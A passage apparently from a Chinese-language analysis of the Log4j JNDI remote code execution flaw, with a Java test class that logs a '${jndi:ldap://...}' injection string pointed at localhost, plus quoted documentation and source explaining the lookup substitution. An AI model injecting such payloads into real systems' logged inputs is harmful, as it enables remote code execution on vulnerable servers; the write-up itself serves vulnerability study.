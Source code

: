     public class Log4JTest {
        private static final Logger logger = LogManager.getLogger(Log4JTest.class);
    
        public static void main(String[] args) {
            logger.error("${jndi:ldap://127.0.0.1:7389/test}");
        }
    }
    ```

## Log4j RCE 漏洞原理分析

1. 为什么 `logger.error("${jndi:ldap://127.0.0.1:7389/test}")` 会执行代码而不是打印字符串 `"${jndi:ldap://127.0.0.1:7389/test}"` ?

   在 `log4j` 的官网，可以查看到， `log4j` 中的 `lookups` 有以下功能（参考地址： `https://logging.apache.org/log4j/2.x/manual/lookups.html`）

   官网描述： 

   >Lookups provide a way to add values to the Log4j configuration at arbitrary places. They are a particular type of Plugin that implements the StrLookup interface. Information on how to use Lookups in configuration files can be found in the Property Substitution section of the Configuration page.

   可以从不同的地方加载资源，赋值给 `log4j` 的配置并使用。查看下面的列表可以看到其中包含 `Context Map Lookup`、 `Date Lookup`、 `Docker Lookup`、 `Environment Lookup`、 ...、 `Jndi Lookup`、...

   而对于 `Jndi Lookup ` 官网描述：

   >Jndi Lookup
   >As of Log4j 2.17.0 JNDI operations require that log4j2.enableJndiLookup=true be set as a system property or the corresponding environment variable for this lookup to function. See the enableJndiLookup system property.

   > The JndiLookup allows variables to be retrieved via JNDI. By default the key will be prefixed with java:comp/env/, however if the key contains a ":" no prefix will be added.

   > The JNDI Lookup only supports the java protocol or no protocol (as shown in the example below).

   可以看到，`Jndi Lookup` 允许通过 `JNDI` 去检索变量。

   简而言之，`Log4j` 中的 `Jndi Lookup` 允许 `Jndi` 远程访问如 `LDAP`、 `RMI`、 `文件系统`、 `Novell目录服务` 等资源，并在配置文件中使用。

   

   源码参考： `org.apache.logging.log4j.core.lookup.JndiLookup` 与 `org.apache.logging.log4j.core.pattern.MessagePatternConverter`

   ```java
   if (config != null && !noLookups) {
       for (int i = offset; i < workingBuilder.length() - 1; i++) {
           if (workingBuilder.charAt(i) == '$' && workingBuilder.charAt(i + 1) == '{') {
               final String value = workingBuilder.substring(offset, workingBuilder.length());
               workingBuilder.setLength(offset);
               workingBuilder.append(config.getStrSubstitutor().replace(event, value));
           }
       }
   }
   ```
